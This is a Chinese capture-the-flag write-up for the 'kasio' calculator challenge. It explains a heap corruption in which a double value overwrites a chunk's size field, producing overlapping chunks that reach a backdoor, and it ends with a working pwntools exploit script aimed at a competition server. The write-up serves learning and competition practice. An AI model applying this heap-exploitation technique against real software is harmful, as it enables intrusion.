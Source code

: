 # 卡死欧计算器 

> 李明写的一个简单的表达式计算器，输入诸如`2*(3+4)^5`的式子回车即可进行计算  
> 就是有时候不太好使不知道为啥就死机了
>> 李明发现的可以让计算器卡死的最小复现：  
>> `()+()+1`  
>> `报错： double free or corruption (out)`

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

通过给的提示不难发现，程序将`1.0`这一double值写在了堆块尺寸上，导致了free时的异常，
由此，我们得到了修改堆块尺寸的原语，如果能造成堆块重叠，就能将数字从`num_stack`溢出写到`op_stack`，
使得原本无法输入的#字符出现在`op_stack`上，实现运行后门，具体解释如图所示

![kasio heap layout](./assets/kasio.png)

有以下几点可以再解释：
1. 分配堆块大小由token数决定，由于token由数字和操作构成，故一般情况下不能利用
2. 要想获得"0x91"的double值，需使用"0x60"的字面量，看起来有精度损失
3. 需要用`1+(`的方式来将数字push到栈上，直接运算就无法溢出了
4. `()+()+`会导致将数字写入到`num_stack[top]`，而top已经变成-1了，对应堆块的size

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kasio')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20128)
    magic = '4.7430302000759668e-322' # 0x60 -> 0x91
    sharp = '2.0087766792234922e-139' # '########'

    sh.sendlineafter(b'input', b'1+1+1')                    # 0x31, 0x21
    sh.sendlineafter(b'input', b'1+1+1+1')                  # 0x31(free), 0x21, 0x41
    sh.sendlineafter(b'input', f'()+()+{magic}'.encode())   # 0x31 -> 0x91, 0x21, 0x41(free)
    sh.sendlineafter(b'input', f'1+(2+(3+(4+(5+({sharp})))))'.encode())

    sh.clean()
    sh.interactive()
    sh.close()
```
